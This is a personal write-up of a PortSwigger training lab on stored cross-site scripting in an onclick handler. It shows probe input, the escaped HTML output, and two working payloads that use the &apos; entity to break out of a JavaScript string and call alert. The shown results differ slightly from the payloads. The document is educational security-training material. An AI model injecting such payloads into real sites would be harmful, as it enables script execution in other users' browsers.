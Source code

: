 # [Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

## Lab

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

## Analysis

post a comment:

```http
postId=1&comment='"<>/\&name='"<>/\&email='"<>/\@gmail.com&website=http:'"<>/\
```

check:

```html
<section class="comment">
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">                            <a id="author" href="http:\'&quot;&lt;&gt;/\\" onclick="var tracker={track(){}};tracker.track('http:\'&quot;&lt;&gt;/\\');">&apos;&quot;&lt;&gt;/\\</a> | 25 January 2023
    </p>
    <p>&apos;&quot;&lt;&gt;/\\</p>
    <p></p>
</section>
```

- `"<>`: html encoded
- `'` and `\`: escaped
- `/`: nothing

## Solutions

```http
postId=1&comment=...&name=...&email=...&website=http://&apos;-alert(1)-&apos;
```

- result:

    ```html
    <a id="author" href="" onclick="var tracker={track(){}};tracker.track('http://foo?'-alert(1)-'');">a</a>
    ```

another solution:

```http
postId=1&comment=...&name=...&email=...&website=http://&apos;);alert(1);//
```

- result:

    ```html
    <a id="author" href="" onclick="var tracker={track(){}};tracker.track('http://foo?');alert(1);//');">a</a>
    ```

I think that `&apos;` used to bypass prevention, we can't use the `'` character because it got escaped, but `&apos;` is not and will be HTML decoded in the browser to `'` character. my another solution is: `website=http://&apos;);alert(1);//`

## References

<https://www.youtube.com/watch?v=TG8-LZ_dE9w&ab_channel=MichaelSommer>

- I commented on this video :))
